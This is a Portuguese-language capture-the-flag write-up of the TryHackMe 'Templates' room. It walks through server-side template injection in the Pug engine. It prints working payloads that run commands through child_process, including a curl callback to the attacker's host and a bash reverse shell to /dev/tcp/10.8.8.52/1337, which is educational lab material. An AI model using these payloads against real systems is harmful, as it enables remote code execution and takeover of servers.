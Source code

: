 # Templates - THM Challenge writeup

Ao iniciar a instancia do challenge temos uma breve descrição de uma porta rodando uma aplicação web

```http://<ip>:5000```

<img src="images/Templates/instancia.png">

Ao abrirmos a aplicação, temos uma página que aplica renderização de template. E entramos em um tema que gosto muito, template injection.

<br>
<p style="text-align: center; font-size: 1.6rem">Server side template injection</h1>

A aplicação como todos sabemos tem o client side e o server side. Quando a aplicação usa template engine, o client side usa de linguagens do server para fazer a renderização. Vamos pensar no python com Flask... O front end vai usar de uma template engine chamada Jinja2, um servidor node pode usar handlebars ou EJS.

Esses modelos são muito visto, quando aplicações usam arquiteturas MVC - Model, View, Controller. O proprio controller invoca o arquivo de renderização direto do lado do servidor. Agora podemos seguir ao desafio.

Sabendo que temos uma possiblidade de template injection, a primeira coisa que fazemos é achar o famoso 49.

<img src="images/Templates/49.png">

Então temos 2 informações na imagem acima, a primeira foi que o challenge deu o nome da template pra gente - PUG. Caso queiram ler mais sobre https://pugjs.org/api/getting-started.html. A segunda informação é que estamos fazendo uma operação dentro do template, o que se estivermos certos vai resultar em 49.

<img src="images/Templates/result.png">

Agora sabemos o que fazer, vamos buscar payloads já existentes para o template PUG.

https://exploit-notes.hdks.org/exploit/web/template-engine/pug-pentesting/

<img src="images/Templates/exemplo.png">

```#{function(){localLoad=global.process.mainModule.constructor._load;sh=localLoad("child_process").exec('id')}()}```

Testando o script SSTI acima, não tivemos sucesso. Vasculhando o código fonte da página principal, achei o que parece ser um WAF 

<img src="images/Templates/waf.png">

Aparentemente, o waf filtra o stdout que estamos solicitando, mas será que executa o que pedimos?

Vamos mandar uma request para uma porta aberta em nossa máquina.

```
#{function(){localLoad=global.process.mainModule.constructor._load;sh=localLoad("child_process").exec('curl <ip>:9003')}()}
```

<img src="images/Templates/curl.png">

Recebemos a solicitação.

```
#{function(){localLoad=global.process.mainModule.constructor._load;sh=localLoad("child_process").exec('bash -c "sh -i >& /dev/tcp/10.8.8.52/1337 0>&1"')}()}
```

Tempo de conclusão: 2 horas